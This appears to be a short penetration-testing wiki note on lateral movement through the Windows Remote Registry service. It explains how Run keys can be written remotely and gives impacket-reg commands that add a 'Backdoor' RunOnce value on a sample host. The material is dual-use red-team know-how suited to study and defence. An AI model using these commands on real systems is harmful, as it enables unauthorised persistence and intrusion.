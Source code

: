 ```yaml
---
title: Lateral Movement with Remote Registry
---
```


[[notes/lateral-movement/index]] by using [MS-RRP](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/) to modify the [[notes/windows/registry]], e.g. write to one of the [Run keys](https://persistence-info.github.io/Data/run.html).

The remote registry service runs only on servers by default, but starts on-demand on desktops.
The start of the service can be triggered as unprivileged user ([source](https://twitter.com/splinter_code/status/1715876413474025704)), but if the service was explicitly disabled local admin rights are required to reenable it.

Once the service is running it is possible to read and write the HKCU hive as unprivileged user ([source](https://twitter.com/splinter_code/status/1717706003322478986)).

=== "[[notes/tools/impacket]] with [PR 1638](https://github.com/fortra/impacket/pull/1638)"
    ~~~ bash
    impacket-reg jdoe:'passw0rd'@ws01.corp.local query -keyName 'HKU\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce'
    impacket-reg jdoe:'passw0rd'@ws01.corp.local add -keyName 'HKU\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce' -v Backdoor -vt REG_SZ -vd 'calc.exe'
    ~~~
